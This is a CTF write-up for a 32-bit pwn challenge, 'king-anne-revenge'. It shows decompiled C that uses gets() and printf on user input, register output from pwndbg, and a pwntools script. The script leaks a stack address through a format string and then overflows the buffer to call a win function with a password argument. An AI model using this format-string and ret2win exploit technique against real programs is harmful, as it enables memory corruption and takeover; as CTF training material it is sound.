




# 『king-anne-revenge』

Because this event was ended so i try to solve local. 

- [chall](./source/chall)

# 『The challenge』

No source code, only compiler file. so lets decompile and checkfile. Also we have given libc too to compile using it

# 『Highlight vulnerability and parts of interesting』

So here are are the interesting part of this challenge

```c
#include <stdio.h>
#include <string.h>

void getflag(char *password)
{
    if (strcmp(password, "bartholomew123") == 0)
    {
        FILE *file = fopen("flag.txt", "r");
        if (file == NULL)
        {
            printf("Arrr! Me treasure map be lost in the sea!\n");
            return;
        }
        char flag[100];
        fgets(flag, sizeof(flag), file);
        printf("Here be yer BIG treasure, matey:\n%s\n\n", flag);
        printf("may ye be the richest in ALL of Seven Seas!\n");
        fclose(file);
    }
    else
    {
        printf("\nYe son of a biscuit eater! get out of me treasure before I make ye walk the plank! Begone this instant!\n");
    }
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char piratename[15];
    char password[15];

    printf("ROYAL FORTUNE: Frigate Treasure\n");
    printf("ye want MORE riches? 'tis not gonna be easy, aye,\n");
    printf("well then, identify yerself, ye scallywag: ");
    gets(piratename);
    printf(piratename);
    printf("\nsay yer magic words: ");
    gets(password);
    printf(password);

    if ((strcmp(piratename, "bartholomew") == 0) && (strcmp(password, "bartholomew123") == 0))
    {
        printf("\nAhoy, Cap'n Bartholomew Roberts! yer crews be ready for yer orders! Let's plunder Blackbeard, aye!\n");
        getflag(piratename);
    }
    else if ((strcmp(piratename, "pirate") == 0) && (strcmp(password, "letmein") == 0))
    {
        printf("\nAye, regular lad! Full sail on the Frigate! Sing me chanties!\n");
    }
    else
    {
        printf("\nnYe Landlubber! Get off me ship and be lost in the sea with them sirens! Walk the plank, NOW!\n");
    }

    return 0;
}
```

and the security of this file:



There is no pie and canary too, so this is perfect for ret2param (ret2win with parameter). Explanation [here](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/exploiting-calling-conventions). Also this is 32 bit file which mean we doesn't need the gadget like 64 bit file. But we also can fake the EIP register using stack

Also this vuln is format string too which mean we can leak the stack memory in code.



and proof of this:



If we use pwndbg to see the register:

```asm
──────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────
 EAX  0
 EBX  0x70252070 ('p %p')
 ECX  0x25207025 ('%p %')
 EDX  0xf7f938e0 (_IO_stdfile_1_lock) ◂— 0
 EDI  0xf7ffcc60 (_rtld_global_ro) ◂— 0
 ESI  0
 EBP  0x20702520 (' %p ')
 ESP  0x25207021 ('!p %')
 EIP  0x804943c (main+398) ◂— ret
 ```

 and the location of stack is around at ECX register. So by giving this, we can use `%12$p` to gain the stack offset. Next one:

# 『Solving Challenge』
> solve by Lylera

After we know the leak how much, we can do buffer overflow, here are the full script:

```py
from pwn import *

elf = context.binary = ELF('./chall')
p = process()

target = p64(0x080491e6) # the memory of win to get flag

p.sendlineafter(b'scallywag:', '%12$p')
p.recvuntil('0x')
stack = int(p.recvline().strip().decode(), 16)

payload = flat(
    cyclic(30),
    p32(stack+4),
    cyclic(28),
    target,
    p64(next(elf.search(b'bartholomew123\0'))) #automatic search string `bartholomew123`.
)
p.sendlineafter(b'words:', payload)

p.interactive()
```

Why must p64 at target and searching `bartholomew123` using p64 too? so it will overwrite the EIP into the target that we would like and also we can set the parameter bartholomew123 to become our key for getting flag. 

# 『Flag』

the result:



# 『other』

- [chall](./source)
- [solver.py](./source/solver.py)
- [ret2win with param](https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/exploiting-calling-conventions)